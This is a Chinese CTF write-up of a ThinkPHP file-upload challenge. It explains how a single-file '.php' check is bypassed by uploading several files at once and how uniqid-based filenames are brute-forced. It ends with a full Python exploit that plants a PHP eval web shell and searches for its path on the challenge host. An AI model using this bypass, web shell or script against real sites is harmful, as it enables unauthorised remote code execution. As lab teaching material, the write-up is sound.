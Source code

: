 # 知识点:

# 1.thinkphp 文件上传路径

# 2. thinkphp upload函数多文件上传

# 3. uniqid 生成随机数爆破



# 1.进入之后直接给出源码：

```javascript
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;

        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }

        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
            $this->error($upload->getError());
            return;
        }else{// 上传成功 获取上传文件信息
            $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
            echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
} 
```



# 2.根据源码发现时thinkphp框架，且存在文件上传

thinkphp文件上传默认路径：

/index.php/home/index/upload



# 3. thinkphp的upload函数有一个问题，当参数为空时，整个$_FILES数组的文件都会上传保存



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/F090759508A0464384E1C50C1094F51Fclipboard.png)

源码地址：

https://github.com/top-think/thinkphp/blob/master/ThinkPHP/Library/Think/Upload.class.php

但是该处代码只对同时上传的文件中的一个进行检查



```javascript
$uploadFile = $_FILES['file'] ;

        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }

```

当上传多个文件时，后面的文件就会绕过后缀名为php的检测



而且上传文件的文件名是uniqid函数生成，该函数生成的随机数

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/A089F07306794525A8ADFB4D06C3C09Bclipboard.png)



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/FAA8E2226D02404495FB95B0C96D2EBAclipboard.png)



该函数生成的文件名，是按照当前时间的微秒生成的所以存在爆破的可能性



# 4. 此时的思路：

## 4.1 上传两个文件，第一个为正常的 文件绕过后缀名检测

## 4.2 第二个文件为shell php文件，获取权限

## 4.3 上传第一个文件的同时获取第一个文件的文件名，根据第一个文件的文件名来爆破上传的php文件的文件名



exp:

```javascript
import requests

url = "http://3e428ede-7a4d-49ec-91f6-bc628710114a.node3.buuoj.cn/"

path = url + "/index.php/home/index/upload"
files = {"file":("a.txt",'a'), "file1":("a.php", '<?php eval($_GET["a"]);')}
r = requests.post(path, files=files)
t1 = r.text.split("/")[-1].split(".")[0]
print t1
t1 = int(t1, 16)
print t1

j = t1
while True:
    # 此处的时间需要更换为自己当天的
    path = url + "/Public/Uploads/2020-02-26/%s.php" % hex(j)[2:-1]
    try:
        r = requests.get(path, timeout=1)
    except:
        continue
    if r.status_code != 404:
        print path
        print r.text
        break
    print j, hex(j)[2:-1], r.status_code
    j -= 1
```

当上传成功php文件之后文件内容会被自动替换成flag。也许是为了防止其他师傅获得权限，校时(*^_^*)。直接运行该脚本即可得到flag